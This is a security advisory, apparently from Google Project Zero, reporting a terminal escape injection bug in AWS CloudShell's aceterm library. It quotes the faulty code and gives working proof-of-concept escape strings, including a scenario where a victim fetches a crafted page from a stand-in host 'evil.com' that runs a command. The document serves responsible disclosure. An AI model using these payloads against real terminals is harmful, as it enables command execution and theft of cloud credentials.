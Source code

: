 EXP
---

    Terminal escape injection in AWS CloudShell

    The javascript terminal emulator used by AWS CloudShell handles certain terminal escape
    codes incorrectly. This can lead to remote code execution if attacker controlled data is
    displayed in a CloudShell instance.

    The bug is in the handling of DCS escape codes by the aceterm library:
    //https://github.com/c9/core/blob/master/plugins/c9.ide.terminal/aceterm/libterm.js#L1276
    // Request Termcap/Terminfo String (xterm, experimental)
    // Regular xterm does not even respond to this sequence.
    // This can cause a small glitch in vim.
    // test: echo -ne '\\eP+q6b64\\e\\\\'
    case '+q':
      var pt = this.currentParam
        , valid = false;

       this.send('\\x1bP' + +valid + '+r' + pt + '\\x1b\\\\');
       break;


    this.currentParam contains the arbitrary substring that follows the \"\\eP+q\" escape code.
    this.send() passes its argument to the terminal input handler. This can be used to
    execute arbitrary commands by putting a multiline string into this.currentParam.

    It's trivial to trigger the bug using echo, printing the string '\\eP+q\
    whoami\
    \\e\\\\',
    will trigger execution of the whoami command:

    [cloudshell-user@ip-10-0-163-85 ~]$ echo -ne '\\eP+q\
    whoami\
    \\e\\\\'
    [cloudshell-user@ip-10-0-163-85 ~]$
    [cloudshell-user@ip-10-0-163-85 ~]$ whoami
    cloudshell-user
    [cloudshell-user@ip-10-0-163-85 ~]$


    A potential attack scenario would be to trick someone into accessing a malicious web
    service using a tool like curl:

    attacker:
    - echo -e \"echo -ne \"abcdef\\x1bP+q\
    touch /tmp/foo\
    \\x1b\
    \"\" > index.html

    victim: (using AWS CloudShell)
    - curl http://evil.com/index.html

    This will create the file /tmp/foo on the victim machine.

    If AWS CloudShell is used to ssh into (potentially compromised) EC2 VMs or to view log
    files that contain attacker controlled payloads, similar attacks are possible.

    As CloudShell has full access to the credentials used for the management console login,
    exploiting this vulnerability can give an attacker a very powerful entry point to an AWS
    environment.

    This bug is subject to a 90 day disclosure deadline. After 90 days elapse, the bug report
    will become visible to the public. The scheduled disclosure date is 2021-05-09.
    Disclosure at an earlier date is also possible if agreed upon by all parties.

    Please credit Felix Wilhelm of Google Project Zero in all releases, patches and
    advisories related to this issue.




    Found by: fwilhelm@google.com